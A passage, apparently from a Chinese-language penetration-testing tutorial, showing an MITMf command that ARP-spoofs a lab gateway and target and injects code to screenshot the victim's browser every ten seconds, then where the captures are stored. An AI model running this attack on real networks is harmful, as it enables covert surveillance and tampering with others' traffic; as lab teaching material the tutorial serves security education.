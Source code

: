 ```
mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.5 -i eth0 --screen
```

我们应该去目标电脑并浏览互联网。

访问 Bing 或 Google，搜索任何内容，进入图片等。插件现在已经开始每隔 10 秒拍摄一次截图，接下来我们可以看到截图中，实际上每次都会注入代码：

![](img/ce690b1b-5877-4509-a2cf-7e59c324a7a0.png)

使用*Ctrl* + *C*停止进程，然后我们去查看插件在`/var/log/mitmf`目录下捕获的截图：

![](img/b7b373c7-2271-4814-9728-97a205ae4046.png)

我们可以看到我们在目标电脑上 Google 到的图片：

![](img/63419c7f-45d0-41d5-b8a9-bcf7e4549c4c.png)
